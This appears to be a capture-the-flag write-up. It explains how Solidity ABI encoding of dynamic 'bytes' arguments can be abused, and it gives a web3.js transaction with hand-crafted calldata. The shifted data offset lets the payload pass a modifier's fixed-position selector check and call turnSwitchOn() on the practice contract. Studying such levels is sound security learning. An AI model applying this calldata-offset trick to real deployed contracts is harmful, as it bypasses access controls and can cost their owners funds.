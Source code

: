 ### References
- [Use of Dynamic Types](https://docs.soliditylang.org/en/latest/abi-spec.html#use-of-dynamic-types)
- [EVM opcode docs](https://www.ethervm.io/#37)

## Key Observation

Dynamic input types encoding is as following:
- First word (32 bytes) holds the `offset` of start of the data (i.e. the start index of the `length` word).
- Second word (32 bytes) holds the `length` of the dynamic data in bytes.
- Following bytes contain the data itself.


In our case, `flipSwitch` function accepts a single dynamic type `bytes`.
<br>
So, the **"normal"** value for `offset` would be 32, and the `data` would start in position 68 (after the 2 words containing `offset` and `length`, not counting the first 4 bytes of the `method signature`).

## The Exploit

We can change the `offset` to a higher number that will follow the first 72 bytes of `calldata` (i.e. 68 bytes if we don't count the first 4 bytes of `method signature`).
<br>
This way we **shift** the data pass the first 72 bytes that will be used only by the modifier to perform it's validation.

##

```js
// Note: When 
await web3.eth.sendTransaction({
    from: player,
    to: contract.address,
    data:
        web3.utils.sha3('flipSwitch(bytes)').substring(0, 10) +                 // "flipSwitch" signature       (4 bytes)
        web3.eth.abi.encodeParameter('uint256', '68').substring(2) +            // bytes _data offset           (32 bytes)
        web3.eth.abi.encodeParameter('uint256', '0').substring(2) +             // unused word                  (32 bytes)
        web3.utils.sha3('turnSwitchOff()').substring(0, 10).substring(2) +      // "turnSwitchOff" signature    (4 bytes)
        web3.eth.abi.encodeParameter('uint256', '4').substring(2) +             // bytes _data length           (32 bytes)
        web3.utils.sha3('turnSwitchOn()').substring(0, 10).substring(2),        // "turnSwitchOn" signature     (4 bytes)
})
```
